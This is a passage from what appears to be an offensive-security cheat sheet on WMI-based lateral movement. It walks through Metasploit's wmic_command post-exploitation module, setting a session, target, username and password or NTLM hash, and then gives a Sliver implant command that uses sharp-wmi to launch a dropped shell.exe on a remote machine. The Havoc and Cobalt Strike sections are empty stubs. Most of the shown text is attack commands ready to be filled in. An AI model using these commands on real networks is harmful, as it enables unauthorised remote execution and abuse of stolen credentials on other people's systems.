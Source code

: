 ```
   --  ----
   0   Automatic
```

#### 4.1.3 - Post

```
msf > use post/windows/gather/wmic_command

msf post(windows/gather/wmic_command) > options

Module options (post/windows/gather/wmic_command):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   COMMAND                     no        WMIC command options.
   RESOURCE                    no        Full path to resource file to read commands from.
   RHOST      localhost        yes       Target address range
   SESSION                     yes       The session to run this module on
   SMBDomain                   no        The Windows domain to use for authentication
   SMBPass                     no        The password for the specified username
   SMBUser                     no        The username to authenticate as
   TIMEOUT    10               yes       Timeout for WMI command in seconds

msf post(windows/gather/wmic_command) > set session <session_id>

msf post(windows/gather/wmic_command) > set rhost <target_IP>

msf post(windows/gather/wmic_command) > set smbuser <username>

msf post(windows/gather/wmic_command) > set smbpass <password | aad3b435b51404eeaad3b435b51404ee:<nt_hash>>

msf post(windows/gather/wmic_command) > set command <WQL Queries>

msf post(windows/gather/wmic_command) > run
```

## 05 - Sliver

### 5.1 - Spawn Callback Shell

`sliver (IMPLANT_NAME) > sharp-wmi action=exec computername=<IP> command=\"""C:\\Windows\\Temp\\shell.exe""\"`

## 06 - Havoc

TODO: Demonstrate commands using wmiexec with Havoc

## 07 - Cobalt Strike
